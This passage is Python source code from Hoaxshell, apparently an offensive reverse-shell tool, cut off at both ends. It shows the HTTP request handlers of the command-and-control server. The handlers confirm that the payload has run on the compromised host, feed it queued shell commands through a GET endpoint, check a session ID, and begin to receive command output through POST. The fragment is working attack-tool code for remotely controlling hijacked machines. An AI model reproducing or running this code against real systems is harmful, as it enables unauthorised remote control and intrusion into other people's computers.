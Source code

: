 			self.send_response(200)
			self.send_header('Content-type', 'text/javascript; charset=UTF-8')
			self.send_header('Access-Control-Allow-Origin', '*')
			self.end_headers()
			self.wfile.write(bytes('OK', "utf-8"))
			Hoaxshell.execution_verified = True
			session_check = Thread(target = checkPulse, args = (stop_event,))
			session_check.daemon = True
			session_check.start()
			print(f'\r[{GREEN}Shell{END}] {BOLD}Payload execution verified!{END}')
			print(f'\r[{GREEN}Shell{END}] {BOLD}Stabilizing command prompt...{END}', end = '\n\n') #end = ''
			print(f'\r[{IMPORTANT}] You can\'t change dir while utilizing --exec-outfile (-x) option. Your commands must include absolute paths to files, etc.') if args.exec_outfile else chill()
			Hoaxshell.prompt_ready = False
			Hoaxshell.command_pool.append(f"echo `r;pwd")
			Hoaxshell.rst_promt_required = True


		# Grab cmd
		elif self.path == f'/{Hoaxshell.get_cmd}' and legit and Hoaxshell.execution_verified:

			self.send_response(200)
			self.send_header('Content-type', 'text/javascript; charset=UTF-8')
			self.send_header('Access-Control-Allow-Origin', '*')
			self.end_headers()

			if len(Hoaxshell.command_pool):
				cmd = Hoaxshell.command_pool.pop(0)
				self.wfile.write(bytes(cmd, "utf-8"))

			else:
				self.wfile.write(bytes('None', "utf-8"))

			Hoaxshell.last_received = timestamp


		else:
			self.send_response(200)
			self.end_headers()
			self.wfile.write(b'Move on mate.')
			pass



	def do_POST(self):
		
		global prompt
		timestamp = int(datetime.now().timestamp())
		Hoaxshell.last_received = timestamp
		self.server_version = Hoaxshell.server_version
		self.sys_version = ""
		session_id = self.headers.get(Hoaxshell.header_id)
		legit = True if session_id == Hoaxshell.SESSIONID else False

		# cmd output
		if self.path == f'/{Hoaxshell.post_res}' and legit and Hoaxshell.execution_verified:
